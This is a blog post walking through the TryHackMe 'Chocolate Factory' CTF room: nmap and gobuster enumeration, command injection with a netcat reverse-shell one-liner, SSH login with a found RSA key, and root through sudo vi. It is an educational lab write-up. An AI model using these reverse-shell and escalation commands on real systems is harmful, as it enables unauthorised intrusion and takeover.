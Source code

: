 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2017-09-12 00:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

### Enumeration 
 
     sudo nmap -sV -sC -v <ip>
     <br />
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
     -v: verbose mode 
     
the result like look,<br />

![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/nmap.png)  

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 

      gobuser dir -u <ip> -w /usr/share/seclists
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
 remember one thing  disable your ufw firewall before run the listerning netcat <br />
  listerning  our system 
  
     nc -lvnp  
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction <br />
   python3 -c 'import pty; pty.spawn("/bin/sh")' <br />
   then list out file and read key
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   change the user to charlie <br/>
   /home/charlie and list all files <br />
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change permission
   
    chmod 600 filename <br />
    
   login with ssh charlie 
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
   read the user key <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) <br />
  ### privilege escalation 
  
  check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   get root permission using vi <br />
   use this website gtfobins.github.io/ <br />
   search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   copy the command and paste into terminal 
   Now root user
   change charlie to root 
   su root 
   run the file with key
   DONE 
  
 

